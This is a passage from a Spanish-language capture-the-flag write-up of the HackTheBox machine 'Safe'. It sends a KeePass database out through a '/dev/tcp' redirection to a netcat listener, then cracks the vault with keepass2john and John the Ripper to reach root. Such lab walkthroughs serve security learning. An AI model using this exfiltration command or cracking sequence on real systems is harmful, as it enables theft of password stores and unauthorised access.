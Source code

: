 o directamente con cat.
>cat < MyPasswords.kdbx >/dev/tcp/tuip/puerto 

En nuestro equipo nos ponemos en escucha por netcat y metemos la salida al archivo MyPasswords.kdbx. También podemos usar scp para pasar los archivos.  
Una vez en nuestro equipo las abrimos con keepassxc, nos pide una password y una keyfile.  
Con keepass2john sacamos los hashes de Mypassword.kdbx y luego los pasamos por john the ripper, pero no tenemos suerte.  
Volvemos a pasar el keepass2john pero esta vez a las imagenes.
>keepass2john -k imagenes MyPassword.kdbx  

Con esto nos dará los hashes que luego intentaremos romper con johntheripper.

![Hashes de las imágenes]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_21_00_41.png)


Al pasar los hashes por john uno de ellos nos da la contraseña, bullshit. Con ella y la imagen ya lo tenemos todo, ya podemos obtener la contraseña de root.

![Contraseña de root]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_21_03_39.png)

Solo nos queda entrar por ssh como user y una vez dentro solo queda convertirse en root con la contraseña que hemos copiado y obtener la flag.

![Flag de root]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_21_17_20.png)


Hasta aquí la máquina Safe, una maquina clasificada como Easy por HTB pero yo la clasificaría como Medium por su Enumeración de binarios y su buffer overflow.

Hasta otra¡


















